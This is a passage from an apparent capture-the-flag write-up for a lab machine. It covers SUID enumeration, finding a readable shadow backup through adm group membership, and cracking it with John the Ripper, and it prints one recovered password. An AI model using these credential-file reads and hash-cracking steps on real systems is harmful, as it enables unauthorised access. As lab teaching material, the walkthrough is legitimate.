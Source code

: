 	drwxrwx---  3 duke      duke      4096 Mar 10  2019 duke
	drwxrwx---  5 hal       hal       4096 May  7 13:12 hal
	drwxrwx---  6 margo     margo     4096 Mar 10  2019 margo
	drwxrwx---  4 theplague theplague 4096 May  7 13:13 theplague
	hal@ellingson:/home$ 

Mistery solved: we're not the user we should be, but the creator of the machine has been gentle to provide us a reliable shell via SSH to continue.

## Enumeration

Let's dig a bit in the filesystem. By running some basic enumeration, like looking for SUID binaries across the filesystem, we find:

<pre>hal@ellingson:~$ find / -perm -4000 -print 2>/dev/null
/usr/bin/at
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/gpasswd
<b>/usr/bin/garbage</b>
/usr/bin/newuidmap
[...]
</pre>

This file is uncommon and we see that it allows us to be root, so probably this is the privilege elevation vector. 

	hal@ellingson:~$ ls -la /usr/bin/garbage
	-rwsr-xr-x 1 root root 18056 Mar  9  2019 /usr/bin/garbage

Nonetheless, running it returns:

	User is not authorized to access this application. This attempt has been logged.

Further enumeration allows us to discover unusual privileges on the current user:

<pre>hal@ellingson:~$ groups
<b>hal adm</b>
hal@ellingson:~$ find / -group adm 2>/dev/null
<b>/var/backups/shadow.bak</b>
/var/spool/rsyslog
/var/log/auth.log
/var/log/mail.err
</pre>

We have `/var/backups/shadow.bak`, which is really nice :) 

## Escalating privileges

In order to crack it, we download it alongside `/etc/passwd`, we create a password DB for John the Ripper and run it:

	root@pentestbox:~# unshadow passwd shadow.bak > passdb.john
	root@pentestbox:~# john --wordlist /usr/share/wordlists/rockyou.txt passdb.john
	Using default input encoding: UTF-8
	Loaded 402687 password hashes with no different salts (tripcode [DES 256/256 AVX2])
	Warning: poor OpenMP scalability for this hash type, consider --fork=8
	Will run 8 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	0g 0:00:00:00 DONE (2019-10-20 14:41) 0g/s 12650p/s 12650c/s 5093MC/s 123456..sss
	Session completed
	root@pentestbox:~# john --show passdb.john
	margo:iamgod$08:1002:1002:,,,:/home/margo:/bin/bash

